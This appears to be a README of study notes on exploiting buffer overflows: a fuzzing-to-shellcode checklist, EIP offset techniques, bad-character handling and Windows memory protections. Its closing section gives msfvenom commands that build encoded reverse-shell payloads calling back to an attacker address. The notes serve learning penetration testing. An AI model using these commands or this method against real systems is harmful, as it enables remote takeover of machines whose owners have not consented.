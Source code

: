 # Buffer Overrflows
> Tips and tricks to succesfully exploit buffer overflows on both Windows & Linux. Also included are a condensed version of my general notes on the topic. 

#### Checklist
- [ ] fuzz all inputs
- [ ] indentify the crash-causing buffer size
- [ ] find exact address of the writable area of memory with BST or unique pattern generation
- [ ] look for additional writable memory space, reverse shellcode typically needs 500-700 bytes
- [ ] check for bad characters
- [ ] identify all DLL's loaded with mona and find a DLL that satisfies the previously found requirements
- [ ] identify a JMP ESP instruction with msf-nasm_shell
- [ ] generate shellcode
	- [ ] Shikata Ga Nai encode to prevent bad characters
---- 
### General Notes
- Goal is to aim to write aribitrary code into the EIP register as this is the CPU register that stores the address of the next instruction to be executed
	- if we can overwite this address we can direct the program to execute code in any location we are able to overflow

- the ESP register stores the address of the current stack frame
	- basically is what controls the scope of local variables
	- common target for shellcode if EIP can be controlled

- most often associated with a memory operations in code like copying a string or moving data that accidentally overwrites other existing data in an unintended area of memory

- always check for bad characters that could cause the buffer overflow to be terminated early
	- look into the hex dump of where the bad characters were overflowing and see if any of them caused the buffer to terminate
		- if so sequential remove the bad characters to ensure the buffer can be properly written to
	- Common bad characters: 
		- 0x00 -> null byte 
		-  0x0A -> (HTTP) line feed
		- 0x0D -> (HTTP) line return

- [Mona](https://github.com/corelan/mona) extension for immunity debugger allows to search the entirety of a programs address space 


## Windows Buffer Overflows
- main mode of discovery is fuzzing
	- looking for applicatino crashes
- generally want to fuzz any input field the application offered

- Have to know exactly which part of the buffer is landing in the EIP register
	- 2 Methods:
		- **Binary Tree Analysis** -> splitting identified size of crash-causing buffer in half with two characters recursively until the exact address is identified
			- i.e. if the crash causing buffer was 800 chars, 400 A's and 400 B's would be sent in the same payload. If overwritten by B's, then that portion of the buffer would be split into 200 B's and 200 C's, etc. until we reach the exact bytes are identified that are overwriting the buffer. 
		- **Unique Pattern Iteration** -> uses a ruby script to generate unique sequence of 4 byte chunks equal to the size of the crash-causing buffer identified
			- this allows an easier way to identify exactly where the overwrite occurs according to which unique string of chars is written to EIP
			- ```/usr/share/metasploit-framework/tools/exploit/msf-pattern_create.rb -l [crash-causing buff size]```
			- ```/usr/share/metasploit-framework/tools/exploit/msf-pattern_offset.rb -l [crash-causing buffer] -q [hex representation overwrote to EIP]```

#### Buffer Overflow Protection Mechanisms on Windows
- DEP -> Data Execution Protection
	- hardware/software that perform extra memory access checks to make sure code is not execution from data pages
- ASLR -> Address Space Layout Randomization
	- randomizes the base address of a program and it's DLL's every time it is loaded so that exploitation of a statis memory address is not feasible
	- This is not implemented on WinXP
- CFG -> Control-Flow Guard 
	- prevents code from branching and overwriting memory address pointers

### MSFVenom Shellcode Payloads
- standard shellcode payload -> rev shell: 
	- ```msfvenom -p windows/shell_reverse_tcp LHOST=[my ip] LPORT=443 -f -c```
- Shikata Ga Nai encoded payload to prevent bad characters from stopping overwrite: 
	- ```msfvenom -p windows/shell_reverse_tcp LHOST=[my ip] LPORT=443 -f c –e x86/shikata_ga_nai -b "\list\of\bad\chars\hex"```
		- Example: 
			- ```msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"```


